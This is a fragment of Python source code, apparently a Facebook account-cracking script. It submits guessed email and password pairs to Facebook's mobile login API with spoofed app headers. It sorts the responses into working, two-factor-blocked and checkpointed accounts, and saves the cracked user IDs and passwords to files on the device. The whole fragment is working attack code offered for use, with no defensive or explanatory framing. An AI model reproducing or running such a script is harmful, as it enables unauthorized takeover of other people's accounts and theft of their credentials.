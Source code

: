                                 'device_id':device_id,
                                'email':ids,
                                'password':pas,
                                'generate_analytics_claims':'1',
                                'credentials_type':'password',
                                'source':'login',
                                'error_detail_type':'button_with_disabled',
                                'enroll_misauth':'false',
                                'generate_session_cookies':'1',
                                'generate_machine_id':'1',
                                'fb_api_req_friendly_name':'authenticate',
                        }
                        headers={
                                'Authorization':f'OAuth {accessToken}',
                                'X-FB-Friendly-Name':'authenticate',
                                'X-FB-Connection-Type':'unknown',
                                'User-Agent':ua,
                                'Accept-Encoding':'gzip, deflate',
                                'Content-Type': 'application/x-www-form-urlencoded',
                                'X-FB-HTTP-Engine': 'Liger'
                                }
                        url = 'https://b-graph.facebook.com/auth/login'
                        twf = 'Login approval'+'s are on. '+'Expect an SMS'+' shortly with '+'a code to use'+' for log in'
                        po = requests.post(url,data=data,headers=headers).json()
                        if 'session_key' in po:
                                uid = po['uid']
                                print(f'\r\r {E}[PRINCE-OK] {str(uid)} | {pas}')
                                open('/sdcard/TANIM/OK.txt','a').write(str(uid)+'|'+pas+'\n')
                                ok.append(str(uid))
                                break
                        elif twf in str(po):
                                uid = po['error']['error_data']['uid']
                                print(f'\r\r \033[38;5;45m[TANIM-2F] {str(uid)} | {pas}')
                                open('/sdcard/prince/2F.txt','a').write(str(uid)+'|'+pas+'\n')
                                tf.append(str(uid))
                                break
                        elif 'www.facebook.com' in po['error']['message']: 
                                uid = po['error']['error_data']['uid']
                                print(f'\r\r {D}[PRÍNCE-CP] {str(uid)} | {pas}')
                                open('/sdcard/PRINCE/CP.txt','a').write(str(uid)+'|'+pas+'\n')
                                cp.append(str(uid))
                                break
                        else:continue
                loop+=1
        except:pass
main()
